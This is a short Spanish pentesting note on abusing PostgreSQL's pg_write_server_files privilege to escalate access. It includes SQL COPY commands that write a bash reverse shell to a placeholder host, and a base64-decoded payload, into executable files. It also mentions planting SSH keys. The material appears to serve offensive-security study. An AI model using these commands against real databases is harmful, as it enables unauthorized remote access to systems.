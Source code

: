 -----
- Tags: #teoria #practica #escalada 
------
# Abuso de permisos de escirutas en sistemas de Gestion de Base de Datos

### El abuso de privilegios de escritura es un tema imporante en la seguridad e baeses de datos, ya que los usuarios malintencionados pueden aprovechar estos privilegios para manipular o dañar datos, insertar información maliciosa o incluso obtener acceso no autorizado al sitema. Aunque los nombres específicos de los permissos pueden variar entre diferentes sistemas de base de datos, el concepto de abuso es relevante en todos ellos.
-----
# Explotación 

### Por ejemplo, en **PostgreSQL** existe un privilegio denominado **pg_write_server_files** el cual como mencionamos permite al usuario que lo posee la manipulación de archivos existentes, lo que podría suponer un riesgo de cara a la seguridad y un punto crucial de interes para el atacante.

### Esto de podría utilizar para depositar claves ssh en los repositorios ssh del usuario, ingresar código malicioso en archivos que se ejecutan a nivel de sistema o incluso ejecutar comandos a nivel de sistema.

```sql
-- Insertar líneas de código en un determinado archivo
COPY (SELECT CAST('bash -i >& /dev/tcp/{host}/{port} 0>&1' AS text)) TO '/path/to/executing/code';

-- Insertar líneas de código de manera alterna
copy (SELECT convert_from(decode('<ENCODED_PAYLOAD>','base64'),'utf-8')) TO '/just/a/path.exec';
```
### Más detalles del abuso de estos privilegios pueden ser encontrados en [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql).